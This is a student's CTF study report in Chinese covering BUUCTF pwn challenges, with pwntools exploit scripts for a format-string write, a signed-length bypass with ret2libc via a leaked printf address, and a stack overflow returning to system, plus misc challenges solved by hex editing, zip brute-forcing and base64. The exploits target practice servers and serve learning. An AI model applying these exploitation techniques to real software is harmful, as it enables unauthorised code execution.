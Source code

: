 # 翟一鸣学习报告03

## 前言

刷了点buuctf上的pwn和misc(为了出题)，学习汇编(b站，小甲鱼)，看《从0到1CTFer成长之路》有关pwn的部分

有关汇编的知识，我主要就是看看视频，因为时长也比较长，相关的笔记就没这么做

## buuctf

### pwn

#### mrctf2020_easy_equation（格式化字符串）

64位，动态链接，NX保护打开

![image-20220402144359449](./image-20220402144359449.png)

printf,可以发现有格式化字符串漏洞

只要满足第8行的条件就可以执行 /bin/sh，可以算出judge=2

所以利用格式化字符串漏洞修改judge的值等于2，就可以完成攻击

![20210127170729199](./20210127170729199.png)

代码如下

```python
from pwn import *
context.log_level='debug'

io = remote("node4.buuoj.cn",25534)
#p = process("./mrctf2020_easy_equation")

judge = 0x060105C
payload = "BB%9$nAAA"+p64(judge) 

io.sendline(payload)
io.interactive()
```

#### pwn2_sctf_2016（常规）

32位，动态链接，NX打开

![image-20220402145617845](./image-20220402145617845.png)

可以看到数据长度被限制为32，无法溢出

![20200218140936333](./20200218140936333.png)

接受a2个长度的字符串并放到vuln函数的缓冲区内部，但是a2传入的值类型是unsigned int，而前面判断长度的类型是int，可以规避长度限制。

因此输入负数长度，则可绕过长度检查

![20200218141052536](./20200218141052536.png)

代码如下

```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'

#io = process('./pwn2_sctf_2016')
io = remote('node4.buuoj.cn', 26080)
elf = ELF('./pwn2_sctf_2016')

format_str = 0x080486F8
printf_plt = elf.plt['printf']
main_addr = elf.symbols['main']
printf_got = elf.got['printf']

io.recvuntil('read? ')
io.sendline('-1')
io.recvuntil('data!\n')

payload = 'a'*0x30 + p32(printf_plt)+p32(main_addr)+p32(format_str)+p32(printf_got)
io.sendline(payload)

io.recvuntil('said: ')
io.recvuntil('said: ')

printf_addr = u32(p.recv(4))
libc = LibcSearcher('printf', printf_addr)

libc_base = printf_addr - libc.dump('printf')
sys_addr = libc_base + libc.dump('system')
str_bin = libc_base + libc.dump('str_bin_sh')

io.recvuntil('read? ')
io.sendline('-1')
io.recvuntil('data!\n')
io.sendline('a'*0x30 + p32(sys_addr) + p32(main_addr) + p32(str_bin))
io.interactive()

```

#### Jarvis oj Test your Memory

32位，动态链接，NX打开

![image-20220402150355255](./image-20220402150355255.png)

main函数如下

![20190105204320754](./20190105204320754.png)

mem函数的这里可以造成栈溢出

![20190105204356697](./20190105204356697.png)

可以在hint中遭到catflag字符串

![20190105204442661](./20190105204442661.png)

![20190105204458164](./20190105204458164.png)

system函数也调用过，所以不用泄露libc

![20190105204546971](./20190105204546971.png)

代码如下

```python
from pwn import*
io = remote('node4.buuoj.cn', 27080)

system_plt=0x08048440

payload='A'*23+p32(system_plt)+p32(0x080485bd)+p32(0x080487E0)

io.recvuntil("> ")

io.sendline(payload)
io.interactive()

```



### misc

#### N种方法解决

exe文件，放到010查看

![image-20220402140544544](./image-20220402140544544.png)

打开后可以看到是个base64密码图像，找到在线解密工具后解出来二维码，可得到答案

![ba579067530419f923d932241fd491a0](./ba579067530419f923d932241fd491a0.png)

#### 大白

![82e042a096333425ad0bb9220c3a7915](./82e042a096333425ad0bb9220c3a7915.png)

用010查看png图片，从10开始前四位是长，后四位是宽 可以看出长宽不符合

![image-20220402141324290](./image-20220402141324290.png)

修改宽度，把宽度增大，就可以看到flag了

![bf33ecfe609036e2b2d3f9f7f7bda51b](./bf33ecfe609036e2b2d3f9f7f7bda51b.png)

#### 基础破解

四位数字加密，直接可以暴力破解

![image-20220402141900538](./image-20220402141900538.png)

得到压缩包密码

![image-20220402141937154](./image-20220402141937154.png)

base64加密，转换一下就到了flag

![image-20220402141950042](./image-20220402141950042.png)

#### 乌镇峰会种图

直接用010看到最后一行，找到flag

![image-20220402142201134](./image-20220402142201134.png)